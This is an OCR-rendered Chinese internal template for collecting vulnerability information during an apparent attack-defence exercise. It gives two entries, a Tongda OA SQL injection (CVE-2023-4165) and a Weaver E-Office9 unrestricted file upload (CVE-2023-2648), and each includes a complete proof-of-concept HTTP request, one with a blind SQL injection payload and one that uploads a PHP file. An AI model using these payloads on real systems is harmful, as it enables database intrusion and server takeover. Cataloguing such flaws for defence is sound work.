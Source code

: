 # **漏洞信息整理**

为了避免重复劳动，大家梳理漏洞信息前先在表格中登记，确认该漏洞没有重复后，再按照下属【漏洞信息模板】收集漏洞信息。

[漏洞清单](https://doc.weixin.qq.com/sheet/e3_AI0AEAZKAP8H1BCHky4RRiUANuDr8?scode=ANYAPwcwAA4VFlsZzGAI0AEAZKAP8&tab=BB08J2)

已收集完成的26个漏洞信息的内容可参考如下附件

[已完成部分.docx](https://drive.weixin.qq.com/s?k=ANYAPwcwAA4EHvMMtKAI0AEAZKAP8)



# **漏洞信息收集**

按照如下给出的示例内容收集hvv期间的重点漏洞信息，互联网上收集poc即可，无需复现

#####             1.     **（已公开poc）通达OA: sql注入漏洞 CVE-2023-4165**

**漏洞描述：**通达OA存在SQL注入漏洞

**漏洞等级：**高危

**漏洞类型：0day/1day/nday**

**影响版本：**11.10版本以前

**漏洞详情：**

影响/general/system/seal_manage/iweboffice/delete_seal.php中的代码，操作参数 DELETE_STR 导致 sql 注入。

**GET /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(s****ubstr(DATABASE(),1,1))=char(84)%20and%20(select%20count(\*)%20from%20information_sche****ma.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1****Host: 127.0.0.1:8080****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/1****16.0****Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q =0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2****Accept-Encoding: gzip, deflate****Connection: close****Upgrade-Insecure-Requests:**

**处置建议：**升级版本（升级至 11.10 版可解决此问题）或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。





#####             2.     **泛微E-Office9: 文件上传漏洞 CVE-2023-2648**

**漏洞描述：**泛微E-Office9存在文件上传漏洞

**漏洞等级：**高危

**影响版本：**9.5

**漏洞详情：**此漏洞影响文件 /inc/jquery/uploadify/uploadify.php。篡改 Filedata 参数会导致不受限制的上传。

**POST /inc/jquery/uploadify/uploadify.php HTTP/1.1****Host: 192.168.232.137:8082****User-Agent: test****Connection: close****Content-Length: 493****Accept-Encoding: gzip****Content-Type:multipart/form-data;boundary=25d6580ccbac7409f39b085b3194765****e6e5adaa999d5cc85028bd0ae4b85****--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85****Content-Disposition: form-data; name="Filedata"; filename="666.php"****Content-Type: application/octet-stream****<?php phpinfo();?>****--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--****--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85****Content-Disposition: form-data; name="file"; filename=""****Content-Type: application/octet-stream****--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85—**
